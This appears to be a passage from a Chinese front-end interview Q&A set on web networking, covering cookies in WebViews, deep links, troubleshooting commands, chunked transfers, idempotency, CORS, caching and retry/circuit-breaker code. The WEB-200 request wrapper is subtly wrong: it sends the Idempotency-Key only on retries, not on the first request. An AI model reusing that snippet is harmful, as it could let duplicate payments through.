- WebView 与原生网络层是两套 Cookie 存储：登录态在原生层设置后，H5 的 XHR 可能读不到（iOS WKWebView 尤其隔离）。
- iOS 方案：WKHTTPCookieStore.setCookie 显式同步，注意写入时机与响应头 Cookie 的主动搬运；Android 用 CookieManager.setCookie 加 flush。
- 通用坑：跨进程同步是异步的，存在竞态——先发请求后同步 Cookie 会丢登录态。
- 推荐时序：登录完成后由原生统一写 Cookie，再通知 H5 校验就绪后刷新业务。

```javascript
// H5 侧配合：收到原生 cookie-synced 通知后，校验关键 Cookie 可见再初始化
window.addEventListener('native-event', (e) => {
  if (e.detail.type !== 'cookie-synced') return;
  const ready = () => document.cookie.includes('__session=');
  // 轮询等待就绪（pollUntil 为简单轮询工具函数），规避跨进程同步的竞态
  (ready() ? Promise.resolve() : pollUntil(ready, { timeout: 3000 })).then(initApp);
});
// 原生侧对应：iOS 用 WKHTTPCookieStore.setCookie，Android 用 CookieManager.setCookie + flush
```

### WEB-189：深链与 App Link 的网络层配合是什么？
**答**：
- URI scheme（myapp://）最简单但无归属校验，易被抢注；Android App Links 与 iOS Universal Links 走 HTTPS 域名下发的关联文件（.well-known/assetlinks.json 与 apple-app-site-association）做归属验证。
- 未安装时的体验靠 fallback URL：intent 链接的 browser_fallback_url，或 Universal Link 直接落到网页版——归因参数要随 URL 带下去。
- Deferred deep link：首次安装后仍能还原"点过的那个内容"，需要归因服务在启动时匹配点击指纹。
- 前端职责：落地页按是否装 App 分流、把 UTM/归因参数编码进两条路径、处理浏览器拦截 scheme 的弹窗逻辑。

```html
<!-- Android App Links：域名校验文件部署在 https://app.example.com/.well-known/assetlinks.json -->
<!-- 页面里的兜底跳转：未安装时落到带归因参数的网页版 -->
<a href="intent://promo/123#Intent;scheme=myapp;package=com.example.app;S.browser_fallback_url=https%3A%2F%2Fapp.example.com%2Fpromo%2F123%3Futm_source%3Dbanner;end">
  打开活动
</a>
<script>
  // iOS Universal Links 由系统直接拉起 App；未安装时 Safari 打开同一 HTTPS URL 的网页版
  // 两条路径都保留归因参数，安装后首次启动据此还原上下文，实现 deferred deep link
</script>
```

## 三十一、综合排查与收束

### WEB-190：用户反馈"页面打不开"，给出一次完整的分层排查 SOP。
**答**：
- 按 DNS → TCP → TLS → HTTP → 渲染五层收敛，每层用一条命令拿到证据，避免上来就看业务代码。
- 先判断全量还是个别：换网络（手机热点）、换设备、换 DNS 快速二分，排除个人环境问题。
- 服务端视角补充：网关日志、监控大盘、最近发布记录——很多"打不开"其实是发布回滚造成的。
- 渲染层别漏：HTTP 200 但白屏，要看 JS 报错、关键资源 404、CSP 拦截记录。



```bash
# 每层一条命令拿证据
dig www.example.com +short                       # 1) DNS：有没有解析出 IP
nc -vz -w 3 www.example.com 443                  # 2) TCP：端口是否可达
openssl s_client -connect www.example.com:443 -servername www.example.com </dev/null 2>/dev/null | grep 'Verify return'
                                                 # 3) TLS：证书链校验结果
curl -sS -o /dev/null -w 'code=%{http_code} ttfb=%{time_starttransfer}\n' https://www.example.com
                                                 # 4) HTTP：状态码与首字节耗时
# 5) 渲染：DevTools 的 Console 与 Network，重点看 JS 异常与关键资源是否 404
```

### WEB-191：WebSocket 多实例部署下怎么做集群广播？
**答**：
- 问题：WS 连接粘在某个实例上，用户 A 连在实例 1，订阅的频道消息却先到实例 2，跨实例无法直达。
- 标准解法：WS 网关无状态化 + Redis Pub/Sub 扇出——发布方 publish，每个实例订阅后把消息投给自己持有的连接。
- 规模升级：按频道分片的专用推送网关，或消息队列（Kafka）兜底可靠投递与回放。
- 前端配合：重连后回传"最后收到的消息 id"，服务端做增量补偿，避免广播间隙丢消息。

```javascript
// Node：ws 网关 + Redis pub/sub 扇出（ioredis）
const Redis = require('ioredis');
const sub = new Redis(), pub = new Redis();
wss.on('connection', (ws, req) => {
  ws.room = new URL(req.url, 'http://x').searchParams.get('room');
  ws.send(JSON.stringify({ t: 'sync' })); // 提示前端回传 lastId 做增量补偿
});
sub.psubscribe('chat:*');                 // 频道通配订阅
sub.on('pmessage', (pattern, channel, msg) => {
  const data = JSON.parse(msg);
  for (const client of wss.clients) {
    if (client.room === data.room && client.readyState === 1) client.send(msg);
  }
});
// 发布方（任意实例或业务服务）
function broadcast(room, payload) {
  pub.publish('chat:*', JSON.stringify({ room, ...payload }));
}
```

### WEB-192：大文件上传的协议层怎么设计？
**答**：
- 分片：前端按 4-8MB 切片，限并发 3-5 并行上传，每片带 index 与分片 hash；服务端落临时目录。
- 秒传与续传：上传前算文件整体 md5 先询问服务端，已存在直接完成；"已上传分片列表"接口让续传跳过完成部分。
- 合并：全部分片完成后调 merge 接口，服务端按 index 顺序拼接并校验整体 hash；协议骨架是 init/check/chunk/merge 接口组。
- 体验：分片级进度、失败单片重试、暂停与恢复（AbortController + 已传清单）。



```javascript
// 分片上传主流程（秒传 + 断点续传 + 并发控制；hashFile 与 parallel 为工具函数）
async function uploadFile(file) {
  const md5 = await hashFile(file);
  const check = await fetch(`/api/upload/check?md5=${md5}`).then((r) => r.json());
  if (check.exists) return check.url;                     // 秒传
  const uploaded = new Set(check.uploadedChunks);         // 断点续传：跳过已传分片
  const size = 4 * 1024 * 1024;
  const tasks = [];
  for (let i = 0; i * size < file.size; i++) {
    if (uploaded.has(i)) continue;
    tasks.push({ i, blob: file.slice(i * size, (i + 1) * size) });
  }
  await parallel(tasks, 3, async ({ i, blob }) => {       // 限并发 3
    const fd = new FormData();
    fd.append('chunk', blob);
    fd.append('uploadId', check.uploadId);
    fd.append('index', i);
    const res = await fetch('/api/upload/chunk', { method: 'POST', body: fd });
    if (!res.ok) throw new Error(`chunk ${i} failed`);    // 单片失败可单独重试该片
  });
  // 合并：服务端按 index 顺序拼接并校验整体 md5
  return fetch('/api/upload/merge', {
    method: 'POST',
    headers: { 'content-type': 'application/json' },
    body: JSON.stringify({ uploadId: check.uploadId, md5 }),
  });
}
```

### WEB-193：大文件下载的体验与协议层怎么设计？
**答**：
- 前提：服务端支持 Range（Accept-Ranges: bytes），才能做并发分段下载与断点续传；先 HEAD 探测 Content-Length 与 Range 支持。
- 并发分段：按 Range 切 N 段并行 fetch，进度实时聚合，完成后按段顺序拼接。
- 体验要点：可暂停与恢复（AbortController + 已下载段清单）、剩余时间估算、失败段单独重试。
- 校验：服务端提供整体 hash（响应头或元信息接口），下载完对拼好的文件校验，防静默损坏。

```javascript
// 并发分段下载（核心流程示意，parallel 为并发控制工具函数）
async function downloadLarge(url, onProgress) {
  const head = await fetch(url, { method: 'HEAD' });
  const total = Number(head.headers.get('content-length'));
  const accepted = head.headers.get('accept-ranges') === 'bytes';
  if (!accepted) return singleStreamDownload(url);        // 不支持 Range 则退化为流式单线程
  const parts = 8, size = Math.ceil(total / parts);
  let done = 0;
  const buffers = await parallel([...Array(parts).keys()], parts, async (i) => {
    const res = await fetch(url, {
      headers: { Range: `bytes=${i * size}-${Math.min(total, (i + 1) * size) - 1}` },
    });
    if (res.status !== 206) throw new Error('range not honored');
    const buf = await res.arrayBuffer();
    done += buf.byteLength;
    onProgress(done / total);                             // 聚合各段进度
    return buf;
  });
  return URL.createObjectURL(new Blob(buffers));          // 段顺序拼接成完整文件
}
```

### WEB-194：接口幂等的协议层方案（Idempotency-Key）怎么设计？
**答**：
- 场景：支付/下单类 POST 请求，网络重试或用户重复点击导致重复提交。
- 协议方案：客户端为每个业务操作生成唯一 Idempotency-Key 请求头；服务端首次执行后把 key 与响应绑定缓存（带 TTL），重试直接返回首次结果。
- 状态机细节：处理中收到同 key 请求返回 409 或 202（让客户端稍后再试）；同 key 但 payload 不同返回 422。
- 客户端责任：同一逻辑操作的重试必须复用同一个 key，进入新表单才换新 key。

```http
# 第一次提交：生成唯一 key
POST /api/payments HTTP/1.1
Content-Type: application/json
Idempotency-Key: 8f14e45f-ea0a-4b3f-9f2d-1a2b3c4d5e6f

{"orderId": "A1001", "amount": 9900}

# 网络超时后客户端重试：必须复用同一个 key
POST /api/payments HTTP/1.1
Content-Type: application/json
Idempotency-Key: 8f14e45f-ea0a-4b3f-9f2d-1a2b3c4d5e6f

{"orderId": "A1001", "amount": 9900}

# 服务端命中 key 缓存：返回首次结果，不重复扣款
HTTP/1.1 200 OK
Idempotency-Replayed: true
```

### WEB-195：跨域方案怎么选？给一个决策树。
**答**：
- 一句话原则：能改服务端 → CORS（正统方案）；不能改服务端 → 同域部署或网关代理；纯浏览器间 → postMessage；实时推送 → WebSocket/SSE 配合网关放行。
- 开发环境用 devServer proxy，生产用 nginx 反代或网关统一加 CORS 头，保持两套逻辑同构，避免"本地好好的线上跨域"。
- iframe 场景只有 postMessage（且必须校验 origin）；JSONP 已淘汰，不再建议。
- 升级路径：简单 API 用 CORS；多域名聚合上网关代理；跨窗口/iframe 用 postMessage + MessageChannel。



```json
{
  "devServer": {
    "proxy": {
      "/api": {
        "target": "https://backend.internal",
        "changeOrigin": true,
        "pathRewrite": { "^/api": "" }
      }
    }
  }
}
```

### WEB-196：Cookie 精细化治理实战怎么做？
**答**：
- 盘点：用 DevTools Application 面板或脚本枚举全站 Cookie，按"业务必需 / 可删 / 有泄漏风险"三色标记。
- 收敛方向：静态资源用独立裸域不带业务 Cookie；每个 Cookie 显式 Domain/Path/Expires/SameSite，禁止裸 name=value。
- 安全加固：敏感会话用 __Host- 前缀 + HttpOnly + Secure；第三方嵌入场景评估 Partitioned 分区 Cookie。
- 上线保障：Cookie 变更走灰度；CI 里对 Set-Cookie 头做断言，防止依赖清单悄悄膨胀。

```javascript
// Cookie 审计脚本：控制台跑一遍，输出问题项清单
// 注意 document.cookie 读不到 HttpOnly 的 Cookie，完整盘点要结合 DevTools 或服务端头
[...document.cookie.split('; ')].forEach((c) => {
  const [name] = c.split('=');
  console.warn(`cookie: ${name}, size: ${c.length}`);
});
// 治理示例：安全会话 Cookie 的理想形态（服务端设置）
// Set-Cookie: __Host-sid=xxx; Secure; HttpOnly; SameSite=Lax; Path=/; Max-Age=604800
// 静态域剥离 Cookie：静态资源统一走 sstatic.example.com，业务 Cookie 永不设置到该域
```

### WEB-197：HTTP 缓存 + Service Worker + 本地存储的三层缓存体系怎么设计？
**答**：
- 分层职责：HTTP 缓存是默认层（指纹文件长缓存 + HTML 协商缓存）；SW Cache API 管离线与策略（cache-first/SWR）；IndexedDB 管结构化业务数据（接口数据、同步队列）。
- 版本原则：带 hash 的静态资源 Cache-Control 一年 immutable；HTML 不强缓存，靠 SW 网络优先保证版本新鲜。
- 失效一致性：SW 命中旧版本时给"有新版本可用"提示，防止用户长期停留在旧 shell。
- 度量：分别上报三层命中率，验证体系真实收益。

```javascript
// SW 中组合三层：静态走 Cache API，接口数据落 IDB 兜底，HTML 网络优先
self.addEventListener('fetch', (event) => {
  const url = new URL(event.request.url);
  if (url.pathname.startsWith('/static/')) {
    event.respondWith(cacheFirst(event.request));                 // 指纹资源：缓存优先
  } else if (url.pathname === '/' || url.pathname.startsWith('/app')) {
    event.respondWith(networkFirst(event.request));               // HTML：网络优先
  } else if (url.pathname.startsWith('/api/')) {
    event.respondWith(networkFirstWithIdbBackup(event.request));  // 接口：网络优先 + IDB 兜底
  }
});
async function networkFirstWithIdbBackup(request) {
  try {
    const res = await fetch(request);
    (await caches.open('api-v1')).put(request, res.clone());      // 供快速回读
    return res;
  } catch {
    const cached = await caches.match(request);
    if (cached) return cached;
    const idb = await db.get('apiBackup', request.url);           // 最后兜底：结构化数据
    return idb ? new Response(JSON.stringify(idb), { headers: { 'content-type': 'application/json' } })
               : new Response('offline', { status: 503 });
  }
}
```

### WEB-198：采集 SDK 的网络容错怎么做？
**答**：
- 上报通道优先级：sendBeacon（页面卸载不丢）→ keepalive fetch → 普通请求队列；失败进本地持久队列（IndexedDB/localStorage）。
- 重试策略：指数退避带上限；按事件优先级决定丢弃顺序——性能数据可丢，错误数据必达。
- 防雪崩：上报本身要限流采样，故障时自动降低上报频率；批量合并减少请求数。
- 数据一致性：每条带上 sessionId 与序列号，服务端可去重与排序。

```javascript
// SDK 容错：sendBeacon 失败转持久队列，退避重试
const queue = {
  async push(event) {
    const ok = navigator.sendBeacon('/collect', JSON.stringify(event));
    if (!ok) await db.put('retryQueue', { id: crypto.randomUUID(), event }); // 页面关闭前的兜底
  },
};
async function drainRetryQueue() {
  const items = await db.getAll('retryQueue');
  let delay = 1000;
  for (const it of items) {
    try {
      const res = await fetch('/collect', { method: 'POST', keepalive: true, body: JSON.stringify(it.event) });
      if (res.ok) await db.delete('retryQueue', it.id);
      else throw new Error('retry later');
    } catch {
      delay = Math.min(delay * 2, 60000);      // 指数退避，上限 60 秒
      setTimeout(drainRetryQueue, delay);
      return;
    }
  }
}
window.addEventListener('online', drainRetryQueue);  // 网络恢复后自动补传
```

### WEB-199：第三方 Cookie 退场后，前端的网络层要怎么演进？
**答**：
- 总方向：从"依赖跨站标识"转向"第一方持有 + 服务端聚合"——登录态用第一方 Cookie/Token，统计走服务端埋点（server-side tagging）。
- 新工具箱：CHIPS 分区 Cookie（嵌 iframe 场景）、Storage Access API（用户授权后短暂访问第一方 Cookie）、Topics API 与 Protected Audience（广告）。
- 站点关系重构：同主体多域名按"第一方集合"思路收敛；跨站登录用 FedCM 让浏览器托管联合登录，摆脱 iframe 内第三方 Cookie。
- 工程动作：盘点所有依赖第三方 Cookie 的能力（广告归因、跨站登录、A/B 工具），逐个迁移并做兼容探测。

```javascript
// 嵌入 iframe 的业务申请访问其第一方 Cookie（Storage Access API）
async function ensureFirstPartyAccess() {
  if (await document.hasStorageAccess()) return true;
  try {
    await document.requestStorageAccess();   // 需要用户手势触发，浏览器会弹授权提示
    return true;
  } catch {
    // 未授权：降级为不依赖跨站 Cookie 的模式（分区 Cookie 或 URL 传参）
    return false;
  }
}
// FedCM（联合登录 API）：浏览器托管的第三方登录，无需第三方 Cookie
try {
  const cred = await IdentityCredential.get({
    providers: [{ configURL: 'https://idp.example.com/fedcm.json' }],
  });
  await loginWith(cred.token);
} catch (e) { /* 不支持或用户拒绝时，降级走传统 OAuth 流程 */ }
```

### WEB-200：请求库里的重试、降级、熔断应该怎么落地？
**答**：
- 分级：网络错误/超时/5xx 可自动重试（指数退避），非幂等请求重试必须带 Idempotency-Key；4xx 不重试，按业务处理。
- 熔断：连续 N 次失败后熔断器打开，直接走降级逻辑；半开状态放行探测请求确认恢复。
- 降级链：实时数据 → SW/Cache 快照 → 上次成功快照（带"数据时间"提示）→ 默认值。
- 统一封装在请求库，业务代码只声明幂等性与降级策略，不各自散落 try/catch。

```javascript
// 请求库核心：重试 + 熔断器 + 降级
class CircuitBreaker {
  constructor() { this.failures = 0; this.openUntil = 0; }
  canPass() { return Date.now() > this.openUntil; }
  record(ok) {
    this.failures = ok ? 0 : this.failures + 1;
    if (this.failures >= 5) this.openUntil = Date.now() + 30_000; // 连续失败熔断 30 秒
  }
}
const breaker = new CircuitBreaker();
const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

async function resilientRequest(url, { retries = 2, idempotent = false, idempotencyKey, fetchOpts, fallback } = {}) {
  const maxRetry = idempotent ? retries : 0;            // 非幂等请求不自动重试
  if (!breaker.canPass()) return fallback?.() ?? Promise.reject(new Error('circuit open'));
  for (let attempt = 0; attempt <= maxRetry; attempt++) {
    try {
      const res = await fetch(url, attempt === 0 ? fetchOpts : {
        ...fetchOpts,
        headers: { ...fetchOpts?.headers, 'Idempotency-Key': idempotencyKey }, // 重试带幂等键
      });
      breaker.record(res.ok);
      if (res.status >= 500 && attempt < maxRetry) { await sleep(2 ** attempt * 500); continue; }
      return res.ok ? res : (fallback?.() ?? res);      // 失败走降级链：缓存 → 默认值 → 报错
    } catch (e) {
      breaker.record(false);
      if (attempt === maxRetry) throw e;
      await sleep(2 ** attempt * 500 + Math.random() * 200);  // 指数退避加抖动
    }
  }
}
```
